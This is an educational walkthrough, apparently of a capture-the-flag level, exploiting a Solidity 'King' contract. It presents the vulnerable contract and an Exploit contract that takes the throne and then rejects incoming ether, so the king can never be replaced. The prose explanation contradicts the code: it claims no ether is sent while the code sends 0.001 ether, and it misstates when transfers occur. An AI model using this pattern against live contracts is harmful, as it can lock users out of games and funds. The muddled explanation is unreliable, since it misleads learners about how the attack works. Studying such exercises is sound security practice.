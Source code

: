 # Exploiting the King Contract

In the realm of smart contracts, security is paramount. Understanding vulnerabilities and how to exploit them is crucial for both developers and auditors. In this educational walkthrough, we'll explore a common vulnerability and demonstrate how to exploit it in the context of a simple Solidity contract.

## The King Contract

Let's begin with the target contract, aptly named `King`. Below is the Solidity code for the `King` contract:

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract King {
    
      address king;
      uint public prize;
      address public owner;
    
      constructor() payable {
        owner = msg.sender;  
        king = msg.sender;
        prize = msg.value;
      }
    
      receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
      }
    
      function _king() public view returns (address) {
        return king;
      }
    }

This contract features a simple game where participants can become the "king" by sending a higher prize than the current one. The current king is the address associated with the king variable, and the prize value is stored in the prize variable. The receive() function handles incoming ether, updating the king and prize accordingly.

## Exploiting the Vulnerability
Our goal is to become the king without actually sending any ether to the contract. To achieve this, we'll deploy an exploit contract that intercepts the incoming ether and prevents the King contract from updating the king. Here's the exploit contract:

    ```solidity
    contract Exploit {
        King target;
    
        constructor(address _target) payable {
            target = King(_target);
            // Call the target contract's fallback function and send 0.001 ether
            (bool success, ) = _target.call{value: 0.001 ether}("");
            require(success, "Call failed");
        }
    }

This Exploit contract does not have any payable functions, meaning it rejects any ether sent to it.

## Exploiting the King Contract
To exploit the King contract, we deploy the Exploit contract and ensure that the King contract sends ether to it during deployment. Once deployed, the King contract will attempt to transfer ether to the current king upon receiving a higher prize. However, since the Exploit contract rejects any incoming ether, the king will not be updated.

By calling the _king() function on the King contract instance, we can confirm that our exploit contract address is now the king.

Congratulations! You have successfully exploited the vulnerability in the King contract.

## Conclusion
Understanding vulnerabilities and how to exploit them is crucial for ensuring the security of smart contracts. By exploring and experimenting with vulnerabilities in a controlled environment, developers and auditors can better protect against potential exploits in real-world contracts.

